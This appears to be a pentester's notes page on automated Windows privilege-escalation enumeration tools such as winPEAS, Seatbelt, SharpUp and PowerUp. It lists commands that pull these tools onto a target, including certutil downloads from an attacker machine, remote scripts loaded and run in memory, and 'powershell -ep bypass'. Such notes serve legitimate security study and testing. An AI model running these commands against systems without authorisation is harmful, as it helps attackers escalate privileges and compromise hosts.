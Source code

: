 
| EXE's | PowerShell | Other |
| --- | --- | --- | 
| winPEAS.exe | Sherlock.ps1 | windows-exploit-suggester.py (Local) |
| Seatbelt.exe | PowerUp.ps1 | Exploit Suggester (Metasploit) |
| Watson.exe | jaws-enum.ps1 |
| SharpUp.exe | 

[[__.Links (WINDOWS)#Exploring Automated Tools]]

#### winPEAS.ps1
```
wget https://gist.githubusercontent.com/S3cur3Th1sSh1t/d14c3a14517fd9fb7150f446312d93e0/raw/2318ef41f55e7e1a2172a2e67551201c24ee7681/Invoke-winPEAS.ps1
```

```
. .\Invoke-winPEAS.ps1
```

```
Invoke-winPEAS
```

```
run
```

#### winPEAS.exe
```bash - kali
git clone https://github.com/carlospolop/PEASS-ng
```

```bash - kali
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASx64.exe
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASx86.exe
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASany.exe
```

[[Python#Server]]

```batch - windows
certutil -urlcache -split -f http://$KALI/winPEASx64.exe
```

Before running, we need to add a registry key and then reopen the command prompt:

```batch - windows
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Run all checks while avoiding time-consuming searches:

```batch - windows
.\winPEASx64.exe quiet cmdfast > winpeas.txt
```

Run specific check categories:

```batch - windows
.\winPEASx64.exe quiet cmdsysteminfo
```

[[4._File Transfers]]

#### Seatbelt.exe

https://github.com/carlospolop/winPE/tree/master/binaries/seatbelt

```powershell - windows
.\Seatbelt.exe all > Seatbelt.txt
```

To run specific check(s):

```powershell - windows
.\Seatbelt.exe<check> <check>
```

#### Watson.exe
HOW TO USE WATSON: https://vk9-sec.com/watson-find-missing-windows-patches-for-local-privilege-escalation/

```batch - windows
watson.exe
```

#### SharpUp.exe

HOW TO USE SHARPUP: https://medium.com/@markmotig/quick-intro-to-building-and-running-sharpup-alternative-to-powerup-ps1-d114d66e9a75

```powershell - windows
.\SharpUp.exe
```

#### Sherlock.ps1

#### PowerUp.ps1

https://blog.certcube.com/powerup-cheatsheet/

```powershell - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```

#### jaws-enum.ps1

```powershell - windows
powershell -ep bypass
```

```powershell - windows
.\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

#### windows-exploit-suggester.py (Local)

#### Exploit Suggester (Metasploit)

